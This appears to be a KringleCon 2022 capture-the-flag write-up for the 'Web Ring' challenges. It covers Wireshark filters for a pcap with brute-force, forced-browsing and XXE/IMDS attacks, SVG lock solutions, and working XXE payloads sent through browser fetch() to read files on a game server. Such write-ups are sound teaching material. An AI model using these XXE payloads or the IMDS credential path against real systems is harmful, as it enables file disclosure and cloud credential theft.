

# Web Ring

##  Naughty IP

**Q1. The first attack is a [brute force](https://owasp.org/www-community/attacks/Brute_force_attack) login. What's the first username tried?**

From the hint, Wireshark > Statistics > Conversations (sort by most bytes first),
*18.222.86.32* has the most requests and seems suspicious. 

##  Credential Mining

**Q1. The first attack is a [brute force](https://owasp.org/www-community/attacks/Brute_force_attack) login. What's the first username tried?**

Apply filter `ip.src == 18.222.86.32 and http and http.request.method == POST` and sort by requests. The smallest packet number is 7279, and the username/password are "*alice*/philip".

## 404 FTW

**Q1. The next attack is [forced browsing](https://owasp.org/www-community/attacks/Forced_browsing) where the naughty one is guessing URLs. What's the first successful URL path in this attack?**

First apply filter `ip.src == 18.222.86.32 and http  and http.request.method == GET` to see where the forced browsing starts - the first instance is for http://www.toteslegit.us/0 at frame 24475. So we modify the filter to where 18.222.86.32 receives a successful response (200) and the frame number is larger to get a result of */proc*.
`ip.dst == 18.222.86.32 and http and http.response.code == 200  and frame.number >= 24475`

##  IMDS, XXE, and Other Abbreviations

**Q1. The last step in this attack was to use [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?**

From the hint (https://www.sans.org/blog/cloud-instance-metadata-services-imds-/), IMDS listens on  169.254.169.254 so we want to find when the victim server (10.12.42.16) receives a successful response from IMDS, and the text includes credentials. Apply filter `ip.src_host ==  169.254.169.254 and http.response.code == 200`, that brings back four records. Reading the HTTP response text, only pframe number 32925 contains credentials, and the url is *http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance*.

##  Open Boria Mine Door


**Q1. Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.**

Discord hints mentioned svg:
https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started

Using the tutorial, it was a matter of drawing boxes with the right color and length. 

### Lock 1
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<rect width="250" height="60" fill="white" />
</svg>
```

### Lock 2
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<line x1="0" x2="200" y1="70" y2="150" stroke="white" stroke-width="15"/>
</svg>

```
### Lock 3
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<line x1="0" x2="200" y1="90" y2="20" stroke="blue" stroke-width="15"/>
</svg>
```

### Lock 4

This lock had an additional challenge because its javascript was stripping out quotes and angle brackets. To avoid it, use Enter to submit instead of clicking off (which would trigger the onBlur method that eventually does the stripping)
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<line x1="0" x2="200" y1="40" y2="40" stroke="white" stroke-width="15"/>
<line x1="0" x2="200" y1="125" y2="125" stroke="blue" stroke-width="15"/>
</svg>
```

### Lock 5

This lock also strips quotes and angle brackets, so again we use Enter key to submit and avoid the onBlur().
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<line x1="0" x2="200" y1="140" y2="40" stroke="red" stroke-width="15"/>
<line x1="5" x2="200" y1="200" y2="80" stroke="blue" stroke-width="15"/>
</svg>
```
### Lock 6

Although this hint said to watch for CSP, it didn't seem to affect the method of using svg and Enter to submit.
```svg
<svg version="1.1"      width="300" height="200"      xmlns="http://www.w3.org/2000/svg">    
<line x1="0" x2="200" y1="30" y2="30" stroke="lime" stroke-width="15"/>
<line x1="0" x2="200" y1="80" y2="110" stroke="red" stroke-width="15"/>
<line x1="0" x2="220" y1="120" y2="200" stroke="blue" stroke-width="15"/>
</svg>
```
##  Glamtariel's Fountain


### Stage 1: Collecting Info

To start, use browser dev tools to inspect network traffic when interacting. For this puzzle, interaction means dragging the little icons from the group of 4 on the right, and dropping them onto the princess or the fountain at the bottom of the screen. Notice that some requests send JSON to the server indicating which image was dropped (img1..4), and the target (princess or fountain).
```json
{
  "imgDrop": "img2",
  "who": "princess",
  "reqType": "json"
}
```
Keep dropping the icons - at some point the icon group on the right refreshes. As the princess and fountain respond, they also give hints in CAPS - note them down.

Also, at some point, there will be an "omninous" eye that the fountain asks you to click away. BEFORE you do that, note its path - `static/images/stage2ring-eyecu_2022.png`. 



Eventually, you get to a point where the icon group no longer refreshes and the princess and fountain just repeat themselves. At this point, the full the hint list is TAMPER (don't tamper with cookie), TRAFFIC FLIES, PATHs (created path), PATH is closed,  APP, TYPE (of language), SIMPLE FORMAT and RINGLIST (file).  You also get the impression that the princess really likes rings - especially silver, which she doesn't have. 

### Stage 2: JSON to XML switcharoo
Time to bring out the web attack. The princess mentions speaking a different TYPE of language, plus the game hints that XXE could be used.  Taking a look at a drop request (the one that sends JSON) using browser Dev Tools > Network we can right click > "copy as fetch", then paste it into Dev Tools > Console:
```javascript
fetch("https://glamtarielsfountain.com/dropped", {
  "headers": {
  ..
    "content-type": "application/json",
    "x-grinchum": "..."
  },
  "body": "{\"imgDrop\":\"img2\",\"who\":\"princess\",\"reqType\":\"json\"}",
  "method": "POST",
   ...  
}).then(res => res.json())
  .then(console.log);
```
This request sends JSON but it would be interesting to see if we can send the same request using XML instead, and get the same response back from the princess. Using a JSON to XML converter like https://www.convertjson.com/json-to-xml.htm, we get a sample XML:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img2</imgDrop>
  <who>princess</who>
  <reqType>json</reqType>
</root>
```
Now we modify the request in the console to send the converted XML - don't forget to change the content-type to `application/xml` before sending.
```Javascript
fetch("https://glamtarielsfountain.com/dropped", {
  "headers": {
    "content-type": "application/xml",
    "x-grinchum": "..."
  },
"body": "<?xml version='1.0' ?><root><imgDrop>img4</imgDrop><who>princess</who><reqType>xml</reqType></root>",
  "method": "POST",
  ..
}).then(res => res.json())
  .then(console.log);
```
We get the same response as if we had done the same action from the web UI, i.e. the princess does understand the payload in XML.  We are in business!

### Stage 3: Enter XXE
Next, we want to try XXE. Using https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing, we craft an XML to trigger a file to be processed. 
```xml
<?xml version='1.0' ?>
<!DOCTYPE root [
   <!ENTITY xxe SYSTEM  'file://app/static/ringlist.txt' >
]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```
How did we deduce this particular file path? If I had to guess at the designer's mind, I think we were supposed to deduce the \$webroot/\$path,\$file.\$fileExtension, using:
- \$webroot: APP was a hint keyword, plus it's common convention for webroots
- \$path: static, this came from the "ominous eye" path (/static/images)
- \$file: RINGLIST was a hint keyword
- \$fileExtension: SIMPLE was a hint keyword, txt is the simplest format there is.
Putting it together, we get `app/static/ringlist.txt`.  Kapeesh?

When we send it over the console, we get the response
``` json
{
    "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
    "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```
### Stage 4: Following lots of links
Fetching that image (https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png) shows a picture of a folder with text "x_phial_pholder_2022" and a paper peeking out. The corner of the paper shows "bluering.txt", "redring.txt". 


We can try to fetch bluering.txt and redring.txt next (from this point I'll just show the body element for the XML, the request structure stays the same):. 
```javascript
// Requesting bluering.txt - update file value if you want redring.txt
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/bluering.txt' >]> <root><imgDrop>&xxe;</imgDrop><who>princess</who><reqType>xml</reqType></root>",
...
```
but we just get some chitchat about rings which isn't helpful. 
```
redring.txt
{
    "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
    "droppedOn": "none",
    "visit": "none"
}
```
```
bluering.txt
{
    "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
    "droppedOn": "none",
    "visit": "none"
}
```
### Stage 5: Heigh Ho Silver

So red, blue struck out.. How about trying silver?  
```javascript
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/silverring.txt' >]> <root><imgDrop>&xxe;</imgDrop><who>princess</who><reqType>xml</reqType></root>",
```
That returns 
```json
{
    "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
    "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```
Another day, another supersecretsomething.png.. we'll fetch that too. 


This turns out to be a picture of a red ring with text "goldring_to_be_deleted.txt " so we request that in XML:
```javascript
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt' >]> 
```
and receive the response:
```json
{
    "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something."
}
```
### Fair Trade: Silver for Gold

Now we've reached the (IMHO) most obtuse part of the puzzle.  I would NEVER have gotten this without the help of long suffering concierges on Discord. Playing Puzzle Designer again, I think we are supposed to piece these clues:
- The princess really wants a silver ring
- You really want the golden ring
- The princess's last message mentions keywords REQ and TYPE, we are supposed to put them together for the field REQTYPE. 
- The JSON or XML request contains the following elements:
	- **imgDrop**
		- Usually img1..4 for json requests, or a trigger for XXE (&xxe;) with the ENTITY pointing to a known file location.
		- We haven't guessed the silver ring file for XXE, so we will try img1 which is the silver ring's locator using json.
	- **who**
		- Has to be princesss
	- **reqType**
		- So far, values have been json or xml.
		- We still haven't found a place to mention the gold ring to the princess, plus the princess gave the hint of using REQ + TYPE.  So we use this field to trigger XXE, and have the file point to the goldring file we saw earlier. 

Putting it all together, we create the request:
```javascript
fetch("https://glamtarielsfountain.com/dropped", {
    "content-type": "application/xml",
    ...
  },
"body": "<?xml version='1.0' ?><!DOCTYPE root   [ <!ENTITY xxe SYSTEM 'file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt' >]> <root><imgDrop>img1</imgDrop><who>princess</who><reqType>&xxe;</reqType></root>",
...
```
That returns the response:
```json
{
    "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
    "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```


We grab the file, fill in the URL *https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png* into our Objectives and we stagger out, half dead but still glorious, with our Web Ring.


### Quirks/FAQs about Glamtariel's Fountain

**Q**1: I get "Trying to TAMPER with Kringle's favorite cookie recipe or the entrance tickets can't help you Grinchum! I'm not sure what you are looking for but it isn't here! Get out!^Miserable trickster! Please click him out of here.! .

**A**1: Your session may have timed out. Refresh the browser, and watch the drop-request again. Use the  **"x-grinchum"** header value from the drop-request in any requests you send.


**Q2** : I get "Zoom, Zoom, very hasty, can't do that yet!"

**A2**: You need to get to the screen with 4 colorful rings before you can send your XML. Keep dragging and dropping icons onto the princess and fountain until the icons change.  

Jump to: [KringleCon 2022 Orientation](KringleCon%202022%20Orientation.md) | [Tolkien Ring](Tolkien%20Ring.md) | [Elfen Ring](Elfen%20Ring.md) | Web Ring| [Cloud Ring](Cloud%20Ring.md)|[Burning Ring of Fire](Burning%20Ring%20of%20Fire.md)| [KringleCon 2022 Wrap-up](KringleCon%202022%20Wrap-up.md)